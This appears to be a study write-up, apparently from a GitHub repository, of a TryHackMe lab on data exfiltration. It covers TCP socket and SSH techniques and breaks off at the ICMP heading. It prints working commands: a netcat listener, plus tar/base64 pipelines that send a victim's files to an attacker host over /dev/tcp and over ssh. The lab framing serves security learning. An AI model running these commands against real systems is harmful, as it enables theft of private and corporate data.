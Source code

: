 # Data Exfiltration

The Data Exfiltration is the process of transferring data from a system or network without authorization. This type of attack typically involves obtaining and extracting sensitive or confidential information, such as personal, financial, or corporate data, without the consent of the data owner. Data exfiltration is used to hide an adversary's malicious activities and bypass security products. For example, the DNS exfiltration technique can evade security products, such as a firewall.

Data exfiltration can have severe consequences for an organization or individual, including financial loss, reputational damage, and privacy breaches.

<p align="center">
  <img width="600" height="450" src="./img/1.jpg">
</p>

Here we will use some techniques below to exemplify data theft;

* TCP Socket
* SSH
* HTTP(s)
* ICMP
* DNS

For this study, we used the **TryHackMe** room as an example ([TryHackMe - Data Exfiltration ](https://tryhackme.com/r/room/dataxexfilt)).

## TCP Socket Protocol

In this topic, we will use the TCP protocol to transfer data from an already compressed host. This is the simplest technique, where we know that there is a weak security system.

<p align="center">
  <img width="650" height="200" src="./img/2.jpg">
</p>

1. To exfiltrate the data, the hacker opens port 15251 (uncommon).
2. The hacker opens port 1337 to receive data.
3. The victim communicates with the hacker and begins transferring data.

### Starting the Attack

* Let's use NC (NetCat) to start a listener on the attacker. In this step, we will transfer all data received on port 1337 to the **data.txt** file.

```
nc -lvp 1337 > /tmp/data.txt
```
* On the victim, we will begin transfers to the attacking host.

```
tar zcf - /tmp/files/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/1337
```
1. We use TAR to compress the files folder.
2. We convert TAR to base64.
3. We then convert the base64 to a backup file, using dd and EBCDIC encoding.
4. we direct all this code to the TCP socket, sent to 1337 from the attacker.

Below we can see the sending and receiving of data via TCP socket.

* On the victim's machine, I am sending files from the **/tmp/files** folder

<p align="center">
  <img width="800" height="120" src="./img/4.jpg">
</p>

* On the attacker's computer, we receive the data on port 1337 and reverse the DD, base64 and TAR encoding.

<p align="center">
  <img width="800" height="300" src="./img/5.jpg">
</p>

## SSH Protocol

In this step, we will use the SSH protocol to exfiltrate data. More secure than TCP, SSH uses a layer of encryption, making it difficult for security tools to identify leaks.

<p align="center">
  <img width="800" height="200" src="./img/6.jpg">
</p>

* We will use a technique similar to the TCP socket, sending the data encoded.

```
tar cf - /tmp/files/ | ssh thm@attacker.ip "cd /tmp/; tar xpf -"
```
1. Use TAR to create a directory archive.
2. We concatenate it with the SSH command sent to our attacker's user/ip.
3. Inside the attacker's host, we change the directory to /tmp/ and unzip the TAR.

Below we can see the victim's host transferring via SSH to the attacker.

<p align="center">
  <img width="800" height="200" src="./img/7.jpg">
</p>

We found the files inside the attacker's machine.

<p align="center">
  <img width="800" height="200" src="./img/8.jpg">
</p>

## ICMP Protocol

